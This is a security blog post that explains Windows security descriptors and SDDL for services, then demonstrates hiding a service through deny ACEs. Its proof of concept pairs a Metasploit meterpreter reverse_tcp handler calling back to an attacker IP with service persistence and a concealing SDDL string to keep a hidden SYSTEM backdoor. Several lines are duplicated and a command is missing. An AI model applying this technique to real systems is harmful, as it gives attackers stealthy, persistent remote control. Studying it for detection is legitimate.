

Definition
In Windows, every named object has a security descriptor, which contains the security settings for an object.
A security descriptor has two separate Access Control List: a System ACL (SACL) and a discretionary ACL. SACL determine which operation on an object is logged. DACL determine which user can perform a particular operation on the object.
In this case, we will more focus on the DACL, that contains Access Control Entry (ACE) which mainly describe the following information :
- Allowed or Denied
- Set of access rights
- Security ID (SID)
The language SDDL (Security Descriptor Definition Language) defines the string format used to describe a security descriptor. The four main components of a security descriptor are owner (O:), primary group (G:), DACL (D:), SACL (S:).
Let’s create a service to understand a bit more how does it work.
Windows Services
Most of the Windows services can be found just by researching on your Windows search bar "Services".  Creating a service in Windows can be done by using the command sc.exe
 To confirm that your service has been correctly created, you can list all the services present in the system.
To confirm that your service has been correctly created, you can list all the services present in the system.
SDDL & Services
We have quickly defined the services and SDDL, how about we check the permission of a service ? Let's take a native service that can be started or stopped. To start a service:
We will focus on the DACL part, the format of an ACE is: (ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid)
Let’s take the first ACE: (A;;CCLCSWRPWPDTLOCRRC;;;SY)
SDDL for Windows services
D - DENY
CC – SERVICE_QUERY_CONFIG – ask the SCM for the service’s current configuration
LC – SERVICE_QUERY_STATUS – ask the SCM for the service’s current status
SW – SERVICE_ENUMERATE_DEPENDENTS – list dependent services
LO – SERVICE_INTERROGATE – ask the service its current status
CR – SERVICE_USER_DEFINED_CONTROL – send a service control defined by the service’s authors
RC – READ_CONTROL – read the security descriptor on this service.
RP – SERVICE_START – start the service
WP – SERVICE_STOP – stop the service
DT – SERVICE_PAUSE_CONTINUE – pause / continue the service
IU - NT AUTHORITY\INTERACTIVE
SU - NT AUTHORITY\SERVICE
SY - NT AUTHORITY\SYSTEM
BA - BUILTIN\ADMINISTRATEUR
WD - Everyone
If we want to give the permission to start the service to a user, we must retrieve his SID. Let’s add the following SDDL to give the permission to start and stop a service (A;;WPRP;;; S-1-5-21-320533732-2754806046-4003924088-1001). After adding the new access control entry, the user can start and stop the service.
Hiding Windows services
How about we get more stealthy and attempt to hide some services. The permission "LC" will ask the Service Control Manager the current status of a service, but I've noticed that by denying this permission, the service will disappear.
Let's add the following ACE to the DACL of Xblgamesave service : (D;;LC;;;S-1-5-21-320533732-2754806046-4003924088-1001)
Once this ACE has been added, the service will be invisible for the user.
This access control entry deny everyone to request for the service current configuration, current status, check depedencies, stop the service, pause the service and read the SDDL.
We allow to start the service by the SYSTEM, so that we can set a schedule task to run the service everytime that a user is logging in the system for example.
An attacker that has compromised an account with some administrative rights can easily hide a service from the victim. Let's do something more practical to see what a malevolent administrator or an attacker that has administrator privileges can do. For the following POC, I have to disable any host-based detection system, because metasploit is easily flagged by them.
Creating a malicious service
First, we need a malicious payload. To generate one, use msfvenom.use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp Make sure the payload is similar as the one generate by msfvenom.
set LHOST 192.168.80.134 Your own IP address
set LPORT 4444
exploit
set SESSION 5 Check the session ID when your have typed background
set STARTUP SERVICE
set LOCALEXEPATH C:\\temp
run
To return back to the meterpreter interactive session :
Using PowerShell :
 Let's change the permission of the malicious service, replace the SDDL by D:(A;;LCRP;;;SY)(D;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
Let's change the permission of the malicious service, replace the SDDL by D:(A;;LCRP;;;SY)(D;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
 Boom, the service run automatically after any user log in this system and I become SYSTEM :).
Boom, the service run automatically after any user log in this system and I become SYSTEM :). In conclusion, you have seen that manipulating the Security Descriptor Definition Language can restrict many accesses on Windows named objects. For an attacker to accomplish this, he needs to compromise the system and get administrator privilege. For this POC, it is only for educational purpose, it will be flagged by any host based detection if you're trying to do it. But for an malevolent administrator that already has elevated privileges, he can easily restrict access to some objects and avoid being caught by modifying the SDDL.
We will see in another article, how to catch and detect this kind of behavior.